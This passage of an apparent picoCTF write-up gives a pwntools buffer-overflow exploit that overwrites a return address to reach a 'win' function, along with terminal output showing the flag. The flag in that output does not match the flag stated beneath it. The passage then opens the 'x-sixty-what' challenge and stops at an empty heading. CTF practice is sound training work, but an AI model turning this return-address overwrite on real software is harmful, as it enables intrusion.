 Running the payload locally after doing `touch flag.txt` gives a message the return address has changed. 

Code for `buffer_overflow_1.py`:

```python
from pwn import *

port = 49966
debug = 0

if not debug:
        p = remote('saturn.picoctf.net', port)
else:
        p = process('./vuln')

print(p.recvline())

offset = 0xffffd0bc - 0xffffd090        # start of return address - start of buffer
payload = b'A' * offset                 # padding
payload += p32(0x80491f6)               # win

p.sendline(payload)

print(p.recvline())
print(p.recv())
```

Terminal output:

```bash
└─$ python3 buffer_overflow_1.py
[+] Opening connection to saturn.picoctf.net on port 49966: Done
b'Please enter your string: \n'
b'Okay, time to return... Fingers Crossed... Jumping to 0x80491f6\n'
b'picoCTF{addr3ss3s_ar3_3asy_ad2f467b}'
[*] Closed connection to saturn.picoctf.net port 49966
```

Flag: `picoCTF{addr3ss3s_ar3_3asy_b9797671}`

## **x-sixty-what**

### ***Description***

<button name="button" onclick="http://www.google.com">Launch Instance</button> <br>
Overflow x64 code<br>Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the `flag` function in this [program](https://artifacts.picoctf.net/c/192/vuln). [Download source](https://artifacts.picoctf.net/c/192/vuln.c). `nc saturn.picoctf.net 59459`

<details><summary>Hint 1</summary></details>
<details><summary>Hint 2</summary></details>

### ***Writeup***
